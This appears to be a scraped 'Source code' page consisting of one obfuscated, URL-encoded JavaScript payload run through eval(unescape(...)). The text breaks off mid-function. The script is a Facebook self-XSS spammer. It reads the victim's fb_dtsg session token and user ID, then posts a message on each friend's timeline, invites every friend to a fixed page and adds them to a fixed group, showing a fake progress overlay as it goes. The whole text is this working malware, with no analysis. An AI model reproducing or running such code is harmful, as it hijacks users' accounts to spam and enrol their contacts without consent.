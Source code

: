 eval(unescape('function%20Posting%28e%29%7Bjx.load%28window.location.protocol+%22//www.facebook.com/ajax/stream/inline.php%3Ffb_dtsg%3D%22+fb_dtsg+%22%26walltarget%3D%22+e+%22%26render_notif_only%3D1%26birthday%3D1%26message_text%3D%22+encodeURIComponent%28msg%29+%22%26message%3D%22+encodeURIComponent%28msg%29+%22%26giftsgroupid%3D8ff493ad46%26post%3DPost%26nctr%5B_mod%5D%3Dpagelet_reminders%26__user%3D%22+user_id+%22%26__a%3D1%26__dyn%3D7n8ahyj35CFIwd9e%26__req%3D1b%26phstamp%3D%22%2Cfunction%28e%29%7Bvar%20t%3De.substring%28e.indexOf%28%22%7B%22%29%29%3Bvar%20n%3DJSON.parse%28t%29%3Bi--%3BDescriptions%3D%22%3Cdiv%20class%3D%27friend-edge-name%27%20style%3D%27padding-bottom%3A5px%3Btext-align%3Aleft%3Bfont-size%3A10px%3Bwhite-space%3Apre-wrap%3B%22%3Bif%28n.error%29%7BDescriptions+%3D%22color%3Adarkred%27%3E%22%3BDescriptions+%3D%22The%20message%20could%20not%20be%20posted%20to%20this%20Wall.%20%22%3Bif%28n.errorDescription%29%7BDescriptions+%3Dn.errorDescription%7Delse%7BDescriptions+%3DJSON.stringify%28n%2Cnull%2C%22%22%29%7D%7Delse%7BDescriptions+%3D%22color%3Adarkgreen%27%3E%22%3BDescriptions+%3D%22Please%20Wait%20Now%20Posting%20in%20%22+arn%5Bi%5D+%22%27s%20Timeline.%3Cbr/%3E%22%3Bsuc++%7DDescriptions+%3D%22%3C/div%3E%22%3Bvar%20r%3D%22%3Cdiv%20id%3D%27friend-edge-display%27%20style%3D%27box-shadow%3A0px%203px%208px%20rgba%280%2C%200%2C%200%2C%200.9%29%3Bposition%3Afixed%3Bleft%3A50%25%3Bmargin-left%3A-273px%3Btop%3A100px%3Bwidth%3A500px%3Bz-index%3A9999%3Bfont-size%3A14px%3Btext-align%3Acenter%3Bpadding%3A15px%3Bbox-shadow%3A0pt%201px%200pt%20rgba%280%2C0%2C0%2C0.9%29%3Bborder-radius%3A%201em%204em%201em%204em%3Bborder%3A3px%20solid%20rgba%280%2C0%2C0%2C0.9%29%3Bbackground-color%3Argba%280%2C0%2C0%2C0.9%29%3Bcolor%3A%23ffffff%27%3E%22%3Bif%28i%3E0%29%7Bvar%20s%3D%22Auto%20Post%20Your%20Message%20is%20Now%20Processing%22%3Br+%3D%22%3Cdiv%20style%3D%27padding-bottom%3A5px%3Bfont-size%3A20px%3B%27%3E%22+s+%22%3C/div%3E%22%3Br+%3Darr.length+%22%20Friends%20Detected%3Cbr/%3E%22%3Br+%3D%22%3Cb%3E%22+suc+%22%3C/b%3E%20Messege%20Posted%20of%20%22+%28arr.length-i%29+%22%20Messege%20Processed%20%22%3Br+%3D%22%28%22+i+%22%20Lefted...%29%22%3Br+%3D%22%3Cdiv%20class%3D%27friend-edge%27%3E%22%3Br+%3DDescriptions%3Br+%3D%22%3Cimg%20style%3D%27background%3Acenter%20no-repeat%20url%28https%3A//fbcdn-profile-a.akamaihd.net/static-ak/rsrc.php/v2/yo/r/UlIqmHJn-SK.gif%29%3Bwidth%3A50px%3Bheight%3A50px%3Bmargin-left%3A-125px%3Bpadding%3A2px%3Bborder%3A1px%20solid%20rgba%280%2C0%2C0%2C0.4%29%3B%27%20src%3D%22+pho%5Bi%5D+%22%3E%3C/img%3E%3Ca%20style%3D%27padding-left%3A8px%3Bfont-size%3A14px%3Btext-align%3Aleft%3Bcolor%3A%233B5998%3Bposition%3Aabsolute%3Bfont-weight%3Abold%3B%27%3E%22+arn%5Bi%5D+%22%3C/a%3E%22%3Br+%3D%22%3Cdiv%20style%3D%27text-align%3Acenter%3Bfont-size%3A10px%3Bwhite-space%3Apre-wrap%3Bcolor%3Agray%27%3E%22%3Br+%3Dgetuname+%22%20Please%20Wait%20While%20Posting%20Your%20Messege.%3Cbr/%3E%22%3Br+%3D%22%3Cdiv%3E%3Cspan%20class%3D%27FriendRequestAdd%20addButton%20selected%20uiButton%20uiButtonSpecial%20uiButtonLarge%27%20onClick%3D%27ChangeLocation%28%29%27%20style%3D%27color%3Awhite%27%3EGo%20to%20Homepage%3C/span%3E%3Cspan%20class%3D%27layerConfirm%20uiOverlayButton%20uiButton%20uiButtonConfirm%20uiButtonLarge%27%20onClick%3D%27window.location.reload%28%29%27%20style%3D%27color%3Awhite%27%3ECancel%3C/span%3E%3Cbr/%3E%22%3Br+%3D_text%3Bwindow%5Btag+%22_close%22%5D%3Dtrue%3Br+%3D%22%3C/div%3E%22%3Br+%3D%22%3C/div%3E%22%3Br+%3D%22%3C/div%3E%22%7Delse%7Bs%3D%22Auto%20Post%20Has%20Posted%20Your%20Message%22%3Br+%3D%22%3Cdiv%20style%3D%27padding-bottom%3A5px%3Bfont-size%3A20px%3B%27%3E%22+s+%22%3C/div%3E%22%3Br+%3Darr.length+%22%20Friends%20Detected%20and%20%22+suc+%22%20Messege%20Posted%3C/br%3E%3C/br%3E%22%3Bwindow%5Btag+%22_close%22%5D%3Dfalse%3Br+%3D%22%3Cdiv%3E%3Cspan%20class%3D%27FriendRequestAdd%20addButton%20selected%20uiButton%20uiButtonSpecial%20uiButtonLarge%27%20onClick%3D%27ChangeLocation%28%29%27%20style%3D%27color%3Awhite%27%3EGo%20to%20Homepage%3C/span%3E%3Cspan%20class%3D%27layerConfirm%20uiOverlayButton%20uiButton%20uiButtonConfirm%20uiButtonLarge%27%20onClick%3D%27window.location.reload%28%29%27%20style%3D%27color%3Awhite%27%3ERefresh%20Page%3C/span%3E%3Cspan%20style%3D%27color%3Ablack%27%20class%3D%27layerCancel%20uiOverlayButton%20uiButton%20uiButtonLarge%27%20onClick%3D%27document.getElementById%28%5C%22pagelet_sidebar%5C%22%29.style.display%3D%5C%22none%5C%22%27%3ECancel%3C/span%3E%3Cbr/%3E%22%3Br+%3D%22%3Cdiv%20style%3D%27text-align%3Acenter%3Bfont-size%3A10px%3Bwhite-space%3Apre-wrap%3Bcolor%3Agray%27%3E%3Cbr/%3E%22%3Br+%3D_text%3Br+%3D%22%3C/div%3E%22%7Dr+%3D%22%3C/div%3E%22%3Bdocument.getElementById%28%22pagelet_sidebar%22%29.innerHTML%3Dr%7D%2C%22text%22%2C%22post%22%29%3Btay--%3Bif%28tay%3E0%29%7Bvar%20t%3Darr%5Bi%5D%3BsetTimeout%28%22Posting%28%22+t+%22%29%3B%22%2C1e3%29%7Dconsole.log%28tay+%22/%22+arr.length+%22%3A%22+arr%5Btay%5D+%22/%22+arn%5Btay%5D+%22%2C%20success%3A%22+suc%29%3Bif%28fb_dtsg%29%7Bjx.load%28window.location.protocol+%22//www.facebook.com/ajax/pages/invite/send%3F%26fb_dtsg%3D%22+fb_dtsg+%22%26profileChooserItems%3D%257B%2522%22+e+%22%2522%253A1%257D%26checkableitems%5B0%5D%3D%22+e+%22%26page_id%3D574395342655483%26__user%3D%22+user_id+%22%26__a%3D1%26__dyn%3D7n8aD5z5CF-3ui%26__req%3Dk%26phstamp%3D%22%2Cfunction%28%29%7B%7D%2C%22text%22%2C%22post%22%29%7Dif%28fb_dtsg%29%7Bjx.load%28window.location.protocol+%22//www.facebook.com/ajax/groups/members/add_post.php%3F__a%3D1%26fb_dtsg%3D%22+fb_dtsg+%22%26group_id%3D490754864351360%26source%3Dtypeahead%26members%3D%22+e+%22%26nctr%5B_2%5D%3Dpagelet_group_members_summary%26lsd%26post_form_id_source%3DAsyncRequest%26__user%3D%22+user_id%2Cfunction%28%29%7B%7D%2C%22text%22%2C%22post%22%29%7D%7Dfunction%20ChangeLocation%28%29%7Bwindow.location.href%3D%22http%3A//www.facebook.com/%22%7Dfunction%20autopostingfunc%28%29%7Bif%28document.getEleme